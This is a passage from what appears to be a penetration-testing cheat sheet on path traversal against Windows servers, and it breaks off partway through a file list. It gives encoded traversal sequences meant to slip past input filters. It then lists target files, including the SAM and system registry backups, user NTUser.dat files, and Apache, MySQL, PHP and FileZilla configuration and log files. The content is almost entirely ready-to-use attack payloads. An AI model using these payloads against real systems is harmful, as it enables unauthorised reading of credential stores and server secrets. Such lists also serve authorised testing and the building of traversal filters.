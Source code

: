 
#### #Path traversal
* [Windows](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/)
    * Paths
        ```
        ../
        ..\
        ..\/
        %2e%2e%2f
        %252e%252e%252f
        %c0%ae%c0%ae%c0%af
        %uff0e%uff0e%u2215
        %uff0e%uff0e%u2216
        ..././
        ...\.\
        ```

    * Files
        ```
        C:/Users/Administrator/NTUser.dat
        C:/Documents and Settings/Administrator/NTUser.dat
        C:/apache/logs/access.log
        C:/apache/logs/error.log
        C:/apache/php/php.ini
        C:\boot.ini
        C:\config.sys
        C:\Windows\System32\cmd.exe
        C:\pagefile.sys
        C:\System Volume Information
        C:/inetpub/wwwroot/global.asa
        C:/MySQL/data/hostname.err
        C:/MySQL/data/mysql.err
        C:/MySQL/data/mysql.log
        C:/MySQL/my.cnf
        C:/MySQL/my.ini
        C:/php4/php.ini
        C:/php5/php.ini
        C:/php/php.ini
        C:/Program Files/Apache Group/Apache2/conf/httpd.conf
        C:/Program Files/Apache Group/Apache/conf/httpd.conf
        C:/Program Files/Apache Group/Apache/logs/access.log
        C:/Program Files/Apache Group/Apache/logs/error.log
        C:/Program Files/FileZilla Server/FileZilla Server.xml
        C:/Program Files/MySQL/data/hostname.err
        C:/Program Files/MySQL/data/mysql-bin.log
        C:/Program Files/MySQL/data/mysql.err
        C:/Program Files/MySQL/data/mysql.log
        C:/Program Files/MySQL/my.ini
        C:/Program Files/MySQL/my.cnf
        C:/Program Files/MySQL/MySQL Server 5.0/data/hostname.err
        C:/Program Files/MySQL/MySQL Server 5.0/data/mysql-bin.log
        C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.err
        C:/Program Files/MySQL/MySQL Server 5.0/data/mysql.log
        C:/Program Files/MySQL/MySQL Server 5.0/my.cnf
        C:/Program Files/MySQL/MySQL Server 5.0/my.ini
        C:/Program Files (x86)/Apache Group/Apache2/conf/httpd.conf
        C:/Program Files (x86)/Apache Group/Apache/conf/httpd.conf
        C:/Program Files (x86)/Apache Group/Apache/conf/access.log
        C:/Program Files (x86)/Apache Group/Apache/conf/error.log
        C:/Program Files (x86)/FileZilla Server/FileZilla Server.xml
        C:/Program Files (x86)/xampp/apache/conf/httpd.conf
        C:/WINDOWS/php.ini
        C:/WINDOWS/Repair/SAM
        C:/Windows/repair/system